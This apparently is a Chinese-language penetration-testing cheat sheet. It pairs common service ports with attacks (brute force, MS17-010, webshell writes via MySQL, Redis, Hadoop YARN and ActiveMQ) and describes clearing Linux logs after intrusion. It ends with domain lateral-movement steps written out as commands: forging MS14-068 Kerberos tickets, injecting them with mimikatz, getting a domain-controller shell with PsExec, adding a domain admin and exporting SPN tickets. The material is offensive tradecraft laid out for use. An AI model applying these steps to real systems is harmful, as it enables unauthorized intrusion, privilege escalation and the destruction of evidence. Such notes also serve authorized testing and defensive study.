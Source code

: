 ## 渗透思路

### 端口对应的服务

21端口，ftp 可爆破或者尝试匿名anonymous/空登录

| 21 ftp               | 可爆破<br/>匿名anonymous/空登录<br/>MS12-073                 |      |
| -------------------- | ------------------------------------------------------------ | ---- |
| 22 ssh               | 爆破<br>28个退格                                             |      |
| 23 telnet            | 爆破                                                         |      |
| 25 smtp              | 邮件伪造                                                     |      |
| 53 dns               | dns区域传输dns劫持<br>dns缓存投毒 dns欺骗<br>深度利用利用dns隧道技术刺头防火墙 |      |
| 67/68 dhcp           | 劫持欺骗                                                     |      |
| 80 web               |                                                              |      |
| 110 pop3             | 爆破                                                         |      |
| 139 samba            | 未授权访问<br/>远程代码执行漏洞                              |      |
| 143 iamp             | 爆破                                                         |      |
|                      |                                                              |      |
|                      |                                                              |      |
|                      |                                                              |      |
| 445 smb              | ms08-067 ms17-010溢出漏洞<br/>IPC$攻击                       |      |
| 1433 sqlserver       | 溢出攻击<br>空密码入侵。1433还有一个漏洞，就是如果默认安装的话，用户名是sa,密码是空的 |      |
|                      |                                                              |      |
| 3306 mysql           | 暴破<br/>成功后用mysql写入webshell，或者构造vbs写入服务器启动项，启动时添加管理员账号打开3389端口 |      |
|                      |                                                              |      |
| 8088 hadoop yarn     | 资源管理器rest api存在未授权访问漏洞，通过curl -v -X POST申请新的application，构造提交任务后即可在相应目录生成webshell |      |
| 8161 apache activeMQ | console存在默认端口和默认密码、未授权访问<br/>当activeMQ开启put请求时构造payload（即不存在的目录）response会返回相应的物理路径信息，当fileserver存在时我们可以上传jspwebshell，<br/>activeMQ还支持move协议，导致任意文件移动漏洞 |      |
| 6379 redis           | 配置不当的未授权 链接redis（./redis-cli -h IP)，可实现写入webshell，写入crontab计划任务fantanshell，以及写入ssh公钥，获取操作系统权限<br/>暴破 |      |
| 11211 memcached      | 默认情况下存在未授权访问，telnet ip就可以获得服务器敏感信息  |      |
|                      |                                                              |      |
|                      |                                                              |      |

## 流程

信息收集

漏洞挖掘

漏洞利用&权限提升

mysql serv-u Oracle

window溢出

linux脏牛、内核漏洞

### 入侵Linux后要清楚的日志

| web      | sed -i -e 定向清楚 |      |
| -------- | ------------------ | ---- |
| history  | ~                  |      |
| wtmp     |                    |      |
| 登录日志 |                    |      |

### 域内横向移动

| MS14-068         | kerkeo    klist klist  purge  删除所有票据<br>直接访问域控制器的C盘目录：dir \\qianxiao996-dm.qianxiao996.com\C$<br>查看本机用户信息,记录用户名与SID号whoami /all<br>进入MS14-068目录，使用以下命令：ip为域控的ip MS14-068.exe -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword><br/>MS14-068.exe -u zhangsanfeng@qianxiao996.com -s S-1-5-21-2461438818-3229013638-4126918765-1108 -d 192.168.91.131 -p ABCabc123`<br/>生成的票据文件<br>打开mimikatz，注入票据<br>`mimikatz # kerberos::purge          //清空当前凭证<br/>mimikatz # kerberos::list           //查看当前机器凭证<br/>mimikatz # kerberos::ptc 票据文件    //将上一步生成的票据注入到内存中`<br><br/>再次列出域控制器的C盘目录：再次列出域控制器的C盘目录：dir \\qianxiao996-dm.qianxiao996.com\C$<br>使用PSTools目录下的PsExec.exe获取shell:PsExec.exe \\qianxiao996-dm.qianxiao996.com cmd.exe<br>添加域管理员net user wangergou ABCabc123 /add /domain<br/>net group "Domain admins" wangergou /add /domain |      |
| ---------------- | ------------------------------------------------------------ | ---- |
| 0x02.GPP漏洞     | 组策略下发<br>管理工具中打开组策略管理：选择域，并新建组织单位：选择新建的组织单位，并建立GPO：点击新建的GPO：设定组策略作用范围：（选择一个组，必须是存在的组）右键选择GPO，选择编辑–本地用户和组：新建一个用户：域成员上更新组策略，并查看用户:gpupdate net user |      |
| 0x03.SPN票据破解 | 列出当前用户的票据：Kerberos::list <br>导出票据：Kerberos::list /export |      |
|                  |                                                              |      |

